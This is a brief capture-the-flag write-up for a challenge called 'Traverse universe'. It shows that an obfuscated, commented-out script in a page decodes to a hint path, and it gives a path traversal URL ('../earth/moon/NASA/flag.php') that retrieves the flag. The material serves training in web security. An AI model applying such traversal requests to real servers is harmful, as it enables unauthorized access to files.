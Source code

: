 # Name: Traverse universe

## Vulnerability

Path Traversal in URL path.

## Exploit

Check the source code if `index.html`.
There you'll find the following line:

```html
<!--<script>var _0x5c09=['dot-php','earth\x20','log','slash\x20','dot-dot-slash\x20','flag\x20','NASA\x20'];(function(_0xe916b7,_0x5c0933){var _0x34f1b0=function(_0x4a989c){while(--_0x4a989c){_0xe916b7['push'](_0xe916b7['shift']());}};_0x34f1b0(++_0x5c0933);}(_0x5c09,0xa1));var _0x34f1=function(_0xe916b7,_0x5c0933){_0xe916b7=_0xe916b7-0x0;var _0x34f1b0=_0x5c09[_0xe916b7];return _0x34f1b0;};var algf=_0x34f1('0x4')+_0x34f1('0x1')+_0x34f1('0x3')+'moon\x20'+'slash\x20'+_0x34f1('0x6')+_0x34f1('0x3')+_0x34f1('0x5')+_0x34f1('0x0');console[_0x34f1('0x2')](algf);</script>-->
```

Executing the script in the console reveals the path to the flag:

```plaintext
dot-dot-slash earth slash moon slash NASA slash flag dot-php
```

Open this URL in your browser: `http://141.85.224.102:8015/panetarium/../earth/moon/NASA/flag.php`.
